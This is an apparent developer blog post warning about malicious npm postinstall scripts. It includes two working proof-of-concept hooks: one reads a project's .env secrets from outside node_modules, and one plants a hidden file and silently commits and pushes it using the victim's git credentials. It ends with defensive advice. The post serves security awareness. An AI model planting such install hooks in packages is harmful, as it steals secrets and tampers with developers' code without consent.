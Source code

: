 ```yaml
---
layout: post
title:  "NPM and Evil Scripts"
image: 
date:   2019-06-10 01:04:13 +0300
tags:
  - NPM
  - Javascript
---
```


If you are writing javascript, then you probably used NPM. And you probably heard the cries of many javascript developers of how people are overusing NPM packages as dependencies without worrying. If you are one of these people who are not worried, you definitely should be. In this post, I will try to show you one of the reasons why you should be worried.

## Incidents of the Past

Have you heard about the [eslint-scope hijack](https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes)? or perhaps the [event-stream incident](https://github.com/dominictarr/event-stream/issues/116)? or just last June when the NPM security team ["foiled a plot to steal cryptocurrency"](https://blog.npmjs.org/post/185397814280/plot-to-steal-cryptocurrency-foiled-by-the-npm)?

Stolen credentials of one developer, a new maintainer, and a malicious package publisher. All lead to different types of security incidents.

New packages are being published to NPM every day. Many of them are useful, some are not so much, and some are malicious. From phishing attempts to make you install the wrong package, to packages that try to steal or manipulate your system files.

## NPM Scripts

Have you ever used `npm start` or `npm test` or even `npm install`? If so then you are already using NPM scripts. There are few scripts defined by NPM: start, test, and install are few examples. You can read the full list of all predefined scripts in the [NPM documentations](https://docs.npmjs.com/misc/scripts). Additionally, you can define your own scripts and run them with `npm run mycommand`.

## The Dangers of NPM Scripts

Reading NPM documentation about the `postinstall` script:
> Run AFTER the package is installed

This could be useful in many instances, and also dangerous in other situations.

Let's take few examples of how the `postinstall` script can be used by malicious developers to attack you, the poor developer.

## Post Install of Doom Example #1

Let's try something simple. In many node applications, there is a file called `.env`. This file is most likely not committed to source control. It may hold few critical information about your environment. Let's steal it, shall we?!! I will first create a normal npm package, that literally does nothing.

1. First create the package directory:

    ```console
    $ mkdir blog-npm-scripts && cd blog-npm-scripts
    ```

2. Create a `postinstall.js` file and let's try to read the `.env` file:

    ```javascript
    const Path = require('path');
    const fs = require('fs');

    // example: steal stuff from your code-base: an environment file for example
    const workingDirectory = process.cwd();

    const envFilePath = Path.join(workingDirectory, '../..', '.env');

    fs.readFile(envFilePath, 'utf8', (err, data) => {
        if (err) {}

        // I can do whatever
        // for example: I can send these to a remote server!
        console.log(data);
    });
    ```

    Your package is installed under `node_module/blog-npm-scripts`. The code above tries to break out of the `node_modules` directory into the root of the victim's codebase.

3. Add postinstall script in `package.json`:

    ```json
    {
      "name": "blog-npm-scripts",
      "version": "1.0.0",
      "description": "",
      "main": "index.js",
      "scripts": {
        "postinstall": "node ./postinstall.js"
      },
      "author": "",
      "license": "MIT"
    }
    ```

4. An unsuspecting developers installs your package:

    ![example #1 result](/assets/images/npm-evil-scripts-result-1.png)

And done!! We stole this poor developer's environment files.

## Post Install of Doom Example #2

Let's try something slightly more extreme. Let's target those who are using some kind of credential helpers. These users will be most likely auto logged in when executing git commands. Let's try to leverage that to our advantage and inject some code into their codebase.

This time, we will use a shell script.

1. Create a `postinstall.sh` file:

    ```console
      # break outside node_modules
      cd ../..

      # create sneaky javascript file
      touch .sneaky.js

      echo 'module.exports = () => console.log("You cannot even see me")' >> .sneaky.js

      echo 'require("./.sneaky.js")()' >> index.js

      LAST_MESSAGE="$(git log -1 --pretty=%B)"

      git add .

      git commit -m "$LAST_MESSAGE"

      git push origin master
    ```

    The script above creates a file called `.sneaky.js` in the codebase root directory then attempts to push that code to source control using the last commit message.

2. Replace the `postinstall` script in `package.json`:

    ```json
      {
        "scripts": {
          "postinstall": "sh ./postinstall.sh"
        }
      }
    ```

3. An unsuspecting developers installs your package:
    ![example #2 result](/assets/images/npm-evil-scripts-result-2.png)
    As you can see the code was pushed to Github.

## Possibilities are Endless

These are just two simple examples. There are more complex and infinite ways malicious publishers can exploit these scripts. They can trick you into executing sudo commands using `"postinstall": "sudo whatever"`, modify or corrupt your system files, steal valuable information, or install malicious software.

## What can I do?

Few words of advice:
1. Don't install packages for everything.
2. If you install something, do a background check:
    - Ensure the package has a repository link.
    - Ensure the package is actively being maintained.
    - Ensure there is a way of reporting issues and bugs.
    - NPM audits: run `npm audit` to find what are the vulnerable packages.
3. Run npm install with the `--ignore-scripts` flag.
4. If you find a malicious package, report it immediately.

NPM is great but just like other great things, it can be used to do harm. Don't trust everything on NPM blindly.